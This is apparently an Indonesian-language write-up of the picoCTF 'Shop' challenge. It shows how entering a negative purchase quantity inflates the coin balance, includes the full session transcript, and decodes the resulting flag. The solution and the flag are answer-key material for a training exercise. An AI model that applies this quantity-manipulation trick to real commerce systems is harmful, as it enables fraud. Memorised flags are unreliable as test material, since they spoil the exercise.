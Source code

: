 # Shop
Diberikan `nc mercury.picoctf.net 37799` . Saat dibuka, merupakan aplikasi shop dengan item kedua `Fruitful Flag` seharga 100 koin sedangkan kita hanya diberikan 40 koin. Setelah testing lebih lanjut, ternyata program menerima angka negatif sebagai jumlah barang, sehingga dapat menambah jumlah koin.

```
Welcome to the market!
=====================
You have 40 coins
	Item		Price	Count
(0) Quiet Quiches	10	12
(1) Average Apple	15	8
(2) Fruitful Flag	100	1
(3) Sell an Item
(4) Exit
Choose an option: 
0
How many do you want to buy?
-6

You have 100 coins
	Item		Price	Count
(0) Quiet Quiches	10	18
(1) Average Apple	15	8
(2) Fruitful Flag	100	1
(3) Sell an Item
(4) Exit
Choose an option: 
2
How many do you want to buy?
1
Flag is:  [112 105 99 111 67 84 70 123 98 52 100 95 98 114 111 103 114 97 109 109 101 114 95 53 57 49 97 56 57 53 97 125]
```

Diberikan sebuah flag yang jika diconvert dari decimal, didapatkan flag `picoCTF{b4d_brogrammer_591a895a}`.
